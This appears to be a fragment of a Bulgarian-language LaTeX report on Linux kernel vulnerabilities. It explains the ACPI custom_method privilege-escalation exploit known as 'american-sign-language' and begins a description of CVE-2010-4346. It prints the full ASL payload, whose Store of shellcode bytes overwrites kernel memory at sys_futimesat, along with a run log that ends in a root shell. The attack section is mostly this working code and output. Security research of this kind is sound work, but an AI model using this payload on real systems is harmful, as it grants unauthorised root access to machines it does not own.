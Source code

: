 \documentclass[a4paper,12pt,leqno]{article}
\begin{document}
\paragraph{}
Той компилира ASL\footnote{ACPI Source Language} код до AML\footnote{ACPI Machine Language}, който презаписва ACPI методa, използван при промяна на статуса на LID устройството (при отваряне и затваряне на капака на лаптоп). Когато методът се извика, той презаписва \textit{OperationRegion} на физическият адрес, където \textit{sys\_futimesat} се намира и презаписва паметта чрез \textit{Store}, като по този начин стига до privilege escalation при извикването на \textit{sys\_futimesat}.
\begin{verbatim}
DefinitionBlock ("lid.aml", "SSDT", 2, "", "", 0x00001001) {
  Method (\_SB.LID._LID, 0, NotSerialized) {
    OperationRegion (KMEM, SystemMemory, PHYADDR, 0x392)
    Field(KMEM, AnyAcc, NoLock, Preserve) {
      HACK, 0x392
    }
    Store (Buffer () {
      0x55, 0x48, 0x89, 0xe5, 0x53, 0x48, 0x83, 0xec,
      0x08, 0x48, 0xc7, 0xc3, 0x24, 0x24, 0x24, 0x24,
      0x48, 0xc7, 0xc0, 0x24, 0x24, 0x24, 0x24, 0xbf,
      0x00, 0x00, 0x00, 0x00, 0xff, 0xd0, 0x48, 0x89,
      0xc7, 0xff, 0xd3, 0x48, 0xc7, 0xc0, 0xb7, 0xff,
      0xff, 0xff, 0x48, 0x83, 0xc4, 0x08, 0x5b, 0xc9,
      0xc3 }, HACK)
    Return (One)
  }
}
\end{verbatim}
\paragraph{}
Този exploit се отнася само за 64-битови ОС и зависи от наличието на LID устройство.
\begin{verbatim}
$ gcc american-sign-language.c -o american-sign-language
$ ./american-sign-language
[+] resolving required symbols...
[+] checking for world-writable custom_method...
[+] checking for an ACPI LID device...
[+] poisoning ACPI tables via custom_method...
[+] triggering ACPI payload via LID device...
[+] triggering exploit via futimesat...
[+] launching root shell!
# id
uid=0(root) gid=0(root) groups=0(root)
\end{verbatim}


\section{CVE-2010-4346 CVSS Score 2.1}
\subsection{Описание}
\paragraph{}
Функцията \textit{install\_special\_mapping} в\textit{ mm/mmap.c} в Linux ядрата преди 2.6.37-rc6 не извиква функцията \textit{security\_file\_mmap}, което позволява да се заобиколят зададените \textit{mmap\_min\_addr} ограничения и евентуално да се извърши атака с дереференциране на нулев указател, чрез специално създадена програма на асемблер.
\end{document}
